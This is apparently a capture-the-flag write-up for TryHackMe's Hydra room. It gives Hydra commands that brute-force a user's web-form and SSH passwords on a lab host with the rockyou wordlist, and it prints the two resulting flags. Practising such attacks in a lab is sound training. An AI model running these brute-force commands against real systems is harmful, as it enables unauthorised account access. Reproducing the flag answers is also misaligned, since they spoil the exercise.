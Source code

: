 # <div align="center">[Hydra](https://tryhackme.com/r/room/hydra)</div>


# Use Hydra to bruteforce molly's web password. What is flag 1?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -t 50
```
```
THM{2673a7dd116de68e85c48ec0b1f2612e
```

# Use Hydra to bruteforce molly's SSH password. What is flag 2?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10 -t 50 
```
```
THM{c8eeb0468febbadea859baeb33b2541b}
```
